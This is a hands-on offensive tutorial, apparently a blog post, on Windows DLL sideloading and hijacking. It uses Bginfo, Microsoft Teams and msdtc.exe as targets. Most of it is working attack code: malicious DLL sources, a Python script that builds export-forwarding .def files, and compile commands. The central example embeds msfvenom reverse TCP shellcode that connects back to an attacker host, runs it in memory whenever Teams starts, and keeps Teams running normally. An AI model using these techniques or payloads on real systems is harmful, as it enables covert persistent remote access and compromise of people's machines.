# DLL sideloading

DLL Sideloading is a method that abuses the Dynamic-link library search order which defines the specific order that the operating system searches for and loads DLL files when a program attempts to load a DLL at runtime.     

In Windows environments when an application or a service is starting it looks for a number of DLL's in order to function properly. Here is a diagram showing the default DLL search order in Windows:    

    

First of all, let's consider the simplest case: the directory of an application is writable. In this case, any DLL loaded by the application can be hijacked because it's the first location used in the search process.     

### find process with missing DLLs

The most common way to find missing Dlls inside a system is running procmon from sysinternals, setting the following filters:    

    

which will identify if there is any DLL that the application tries to load and the actual path that the application is looking for the missing DLL:     

    

In our example, the process `Bginfo.exe` is missing several DLLs which possibly can be used for DLL hijacking. For example `Riched32.dll`    

### check folder permissions

Let's go to check folder permissions:    

```powershell
icacls C:\Users\user\Desktop\
```

    

### DLL hijacking (practical example 1)

Firstly, let's go to run our `bginfo.exe`:    

    

Therefore if I plant a DLL called `Riched32.dll` in the same directory as `bginfo.exe` when that tool executes so will my malicious code. For simplicity, I create DLL which just pop-up a message box:    

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Now we can compile it (on attacker’s machine):     

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

    

Then rename as `Riched32.dll` and copy to `C:\Users\user\Desktop\` my malicious DLL.   

     

And now launch `bginfo.exe`:    

    

    

### DLL sideloading with exported functions. practical example 2

In the previous example, we considered simplest case, where victim DLL haven't exported functions.    

But in some cases the DLL you compile must export multiple functions to be loaded by the victim process. If these functions do not exist, the binary will not be able to load them and the exploit will fail.      

So, compiling custom versions of existing DLLs is more challenging than it may sound, as a lot of executables will not load such DLLs if procedures or entry points are missing. Tools such as `DLL Export Viewer` can be used to enumerate all external function names and ordinals of the legitimate DLLs. Ensuring that our compiled DLL follows the same format will maximise the chances of it being loaded successfully.    

    

    

We can use this program or we wrote a simple python script which enumerates the exported functions from the provided DLL (`dll-def.py`):    

```python
import pefile
import sys
import os.path

dll = pefile.PE(sys.argv[1])
dll_basename = os.path.splitext(sys.argv[1])[0]

try:
    with open(sys.argv[1].split("/")[-1].replace(".dll", ".def"), "w") as f:
        f.write("EXPORTS\n")
        for export in dll.DIRECTORY_ENTRY_EXPORT.symbols:
            if export.name:
                f.write('{}={}.{} @{}\n'.format(export.name.decode(), dll_basename, export.name.decode(), export.ordinal))
except:
    print ("failed to create .def file :(")
else:
    print ("successfully create .def file :)")
```

Let's check `Microsoft Teams v.1.3.00.24758`:    

    

Then, run procmon from sysinternals, and setting the following filters:    

    

As you can see, the process `Teams.exe` is missing several DLLs which possibly can be used for DLL hijacking. For example `cscapi.dll`:    

    

Then, let's go to move `C:\` and search legit DLL:    

```powershell
cd C:\
dir /b /s cscapi.dll
```

     

We now know exactly where the legit DLL is located.     

### demo

Copy legit `cscapi.dll` to attacker's machine. Then run our `dll-def.py` script:     

```bash
python3 dll-def.py cscapi.dll
cat cscapi.def
```

    

As you can see, Module-Definition file `cscapi.def` has been created.     

Let's take another look at the `evil.c`:     

```cpp
/*
evil.c - malicious DLL
DLL hijacking with exported functions example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-woof!", // I have changed this line for clarity, but not required
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

Compiling the source code:     

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c cscapi.def -s
```

   

Then naming the file `"cscapi.dll"` and placing it in the directory where Microsoft Teams is loaded from gives us a message popup when starting Microsoft Teams.    

     

After we close pop-up Microsoft Teams work correctly, not crashed:    

    

Now that everything is working as expected, let's add some more advanced functionality to the DLL, which in turn will give us a reverse TCP shell whenever MS Teams is started.     

For simplicity we can just use msfvenom to generate our reverse shell shellcode:     

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.28 LPORT=4444 EXITFUNC=thread -f c
```

     

Update our malicious DLL with new one:    

```cpp
/*
evil2.c - malicious DLL with reverse shell payload
DLL hijacking with exported functions example
author: @cocomelonc
*/
#include <windows.h>

// msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.28 LPORT=4444 EXITFUNC=thread -f c
unsigned char payload[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x01\x1c\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int payload_len = sizeof(payload);

// https://docs.microsoft.com/en-us/windows/win32/procthread/creating-threads
DWORD WINAPI run() {
  LPVOID memory;  // memory buffer for payload
  HANDLE pHandle; // proccess handle

  // get the current process handle
  pHandle = GetCurrentProcess();

  // allocate memory and set the read, write and execute flag
  memory = VirtualAllocEx(pHandle, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

  // copy the shellcode into the newly allocated memory
  WriteProcessMemory(pHandle, memory, (LPCVOID)&payload, payload_len, NULL);

  // if everything went well, we should now be able to execute the shellcode
  ((void(*)())memory)();

  return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
  HANDLE threadhandle;
  switch (fdwReason) {
    case DLL_PROCESS_ATTACH:
      // create a thread and run our function
      threadhandle = CreateThread(NULL, 0, run, NULL, 0, NULL);
      // close the thread handle
      CloseHandle(threadhandle);
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    case DLL_PROCESS_DETACH:
      break;
    }
    return TRUE;
}
```

compile:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil2.dll evil2.c cscapi.def -s
```

    

After replace target DLL, prepare listener on attacker’s machine, we can start Microsoft Teams to see if everything is working as expected:    

    

Microsoft Teams will continue working as normal without any crashes.     

    

Windows Defender antivirus reacted at our DLL    

### DLL sideloading. practical example 3 

Choose in mind another application you would like to target. The file can range from a built-in Microsoft application to any other third-party application. The application chosen for this example will be `msdtc.exe`.    

Let's open process monitor and set a filter to display events that are only related to the chosen `.exe` application:    

    

After enabling the filter, scroll through the recorded events and notice how several `CreateFile` operations are resulting in a `NAME NOT FOUND` error:    

    

When selecting a DLL to sideload, one must avoid targeting DLLs that will be used by their payload. For example, `bcrypt.dll` should not be the target DLL if the payload uses cryptographic-related functions (e.g. `BCryptEncrypt` ) that are exported from this DLL as it will end up failing.

After assessing the requirements of the payload and selecting an appropriate DLL to sideload, the next step is to check whether the chosen DLL can be loaded into the target process. To do so, one should create a DLL file and rename it so that it has the same name as the target DLL. For this example, a DLL will be created with the below code, and renamed to `CLUSAPI.dll` when compiled.   

```cpp
/*
evil3.dll
*/

#include <windows.h>

BOOL APIENTRY DllMain (HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
  switch (dwReason) {
    case DLL_PROCESS_ATTACH:
    MessageBoxA(NULL, "Meow-meow!", "=^..^=", MB_OK | MB_ICONEXCLAMATION);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
    break;
  }
  return TRUE;
}
```

   

compiling:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil3.dll evil3.c clusapi.def -s
```

    

After moving the custom `CLUSAPI.dll` DLL to the directory where `msdtc.exe` resides, Procmon reveals that `CLUSAPI.dll` is indeed loaded. However, our payload does not execute as intended. Instead, `msdtc.exe` generates numerous errors as shown below.

    

    

    

The reason for this issue is that `msdtc.exe` requires the loading of a DLL called `msdtctm.dll`. Conversely, when `msdtc.exe` meets its DLL requirements, `CLUSAPI.dll` is loaded. Because it necessitates mapping original DLLs to satisfy the application's dependencies before introducing the custom DLL, using these kinds of DLLs is prohibited. This approach is not optimal since it adds more files to the sideloading attack scenario.     

It was discovered that `COMRES.DLL` and `msdtcVSp1res.dll` were the two DLLs that loaded properly. Use any DLL, place it in the same location as `msdtc.exe`, and use Procmon to see the outcomes. Furthermore, observe how the DLL is correctly executed this time by `msdtc.exe`.    

search `msdtcVSp1res.dll`:    

```powershell
dir /b /s msdtcVSp1res.dll
```

    

compile our `evil3.c` to DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil4.dll evil3.c
```

    

rename it as `msdtcVSp1res.dll` and run `msdtc.exe` again on the victim's machine (Windows 10 x64 in our case):     

```powershell
.\msdtc.exe
```

   

     

But we have a caveat!    

The previously identified `msdtcVSp1res.dll` and `COMRES.DLL` DLLs lack exported functions:    

```bash
python3 dll-def.py msdtcVSp1res.dll
```

    

This means that the payload inside the custom `msdtcVSp1res.dll` or `COMRES.DLL` DLLs should be run through the `DllMain` function instead of a public function that `msdtc.exe` calls. Due to the DLL loader lock problem, it is still possible to run the payload, but it is not a good idea to run code from the `DllMain` method of any DLL.    

When a DLL is loaded into a process, its `DllMain` code is run in a synchronized lock. So, if a program like `example.exe` loads three DLLs, `A.dll`, `B.dll`, and `C.dll`, it has to wait for `A.dll`'s `DllMain` function to finish before it can load `B.dll` and `C.dll`.     

In the event that the `DllMain` function of `A.dll` includes operations that need to be coordinated and cause delays, it is possible for the process to not be able to load the remaining DLLs `B.dll` and `C.dll`. So, `example.exe` might never properly start, which would lead to problems with how it works.     

It's important to understand this because the shellcode that runs in the `DllMain` method of `A.dll` would not run if `B.dll` or `C.dll` wasn't loaded. Because of this, it is better and safer to run the payload from within an exported method of the targeted DLL.     

### check another potential DLL

The payload should be run from an exported function to avoid the DLL load lock problem. This means that the `msdtcVSp1res.dll` and `COMRES.DLL` DLLs that were found earlier are not acceptable. When you run `msdtc.exe` after sideloading another possible DLL, `msdtctm.dll`, the following message box appears:    

    

check DLL from `System32`:    

```powershell
dir /b /s msdtctm.dll
```

    

Copy to attacker's machine and create `def` file:    

```bash
python3 dll-def.py msdtctm.dll
```

    

But which exported function we need to choose?    

The xdbg debugger will be used to run msdtc.exe in order to find out what caused this problem. It's important to remember that the `msdtc.exe` file opened in this program is the original one that can be found in `C:\System32` in Windows.    

    

Whenever we go past the entry point breakpoint for `msdtc.exe`, the processing stops at our breakpoint! The following shows how to use `msdtctm.DtcMainExt`:    

     

This means that the custom `msdtctm.dll` DLL that had been tried before couldn't run the payload because the `DtcMainExt` function wasn't fixed. In light of this, the new DLL code should have an exported function called `DtcMainExt`. If we do things this way, `msdtc.exe` will call this method, which will run our payload. This is how the changed code looks:    

```cpp
/*
 * evil5.c
 * DLL sideloading, exported function.
 * practical example 4
 * author: @cocomelonc
*/

#include <windows.h>

extern __declspec(dllexport) PVOID DtcMainExt() {
  MessageBoxA(NULL, "Meow-meow!", "=^..^=", MB_OK | MB_ICONEXCLAMATION);
  return NULL;
}

BOOL APIENTRY DllMain (HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
  switch (dwReason) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
    break;
  }
  return TRUE;
}
```

Compile:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil5.dll evil5.c -s msdtctm.def
```

    

Copy to victim's machine, rename as `msdtctm.dll` and run:    

```powershell
.\msdtc.exe
```

    

    

As you can see, everything is worked perfectly as expected!    

